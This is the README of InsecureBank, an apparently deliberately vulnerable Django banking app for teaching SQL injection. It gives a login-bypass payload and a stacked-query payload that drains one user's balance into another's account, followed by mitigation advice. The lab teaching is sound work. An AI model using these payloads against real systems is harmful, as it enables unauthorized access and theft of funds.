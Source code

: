 # SQL Injection - InsecureBank

## Overview
**InsecureBank** is a vulnerable web application designed to demonstrate SQL injection attacks in a real-world banking scenario. The project highlights how unsanitized input fields can be exploited to manipulate backend databases, emphasizing the importance of secure coding practices.

## Features
- Demonstrates both **simple** and **complex** SQL injection techniques.
- Allows execution of **multiple SQL statements** in one request.
- Built with **Django** and runs using **Docker** for easy deployment.

## Technologies Used
- **Python (Django Framework)**
- **SQLite Database**
- **Docker** (for containerized deployment)

---

## How SQL Injection Works
A form input is vulnerable to SQL injection when it does not sanitize user inputs before executing SQL queries. Depending on how queries are executed, attackers may exploit:
1. **Boolean-based SQL injection** (modifying query logic using `AND` / `OR` conditions).
2. **Union-based SQL injection** (retrieving hidden data via `UNION SELECT`).
3. **Error-based SQL injection** (leveraging error messages for database insights).
4. **Time-based SQL injection** (detecting vulnerabilities via response delays).

This demo has been intentionally made as **vulnerable as possible** by allowing execution of **multiple SQL statements** in one request.

---

## Installation and Setup

### Running via Docker (Recommended)
```sh
docker build -t insecurebank .
docker run -p 8000:8000 insecurebank
```
Access the application at: [http://localhost:8000](http://localhost:8000)

### Running without Docker
```sh
python3 manage.py runserver
```
Access the application at: [http://localhost:8000](http://localhost:8000)

---

## SQL Injection Examples

### **Basic SQL Injection (Bypassing Login)**
By entering the following into the **username** field, an attacker can bypass authentication:
```sql
' OR '1'='1
```
This works because `'1'='1'` is always **true**, allowing unauthorized access.

### **Complex SQL Injection (Fund Transfer Exploit)**
This payload transfers money from **user: demo** to **user: hackerman**:
```sql
'; UPDATE bank_bankaccount
SET balance = balance + (SELECT balance FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo'))
WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman');

INSERT INTO bank_transaction (bank_account_id, amount, note, type, transaction_date)
VALUES (
  (SELECT id FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman')),
  (SELECT balance from bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  'All of demo user\'s money!',
  'Deposit',
  '0'
);

UPDATE bank_bankaccount
SET balance = 0
WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo');
```

---

## Security Mitigation Strategies
To prevent SQL injection, developers should:
- **Use prepared statements and parameterized queries** (e.g., `cursor.execute(query, params)`).
- **Sanitize and validate user input** before processing queries.
- **Implement web application firewalls (WAF)** to filter malicious input.
- **Limit database permissions** to minimize the impact of an attack.
- **Use ORM frameworks** like Django ORM to abstract raw SQL execution.


---

## License
This project is licensed under the **MIT License**. See the `LICENSE` file for details.

---


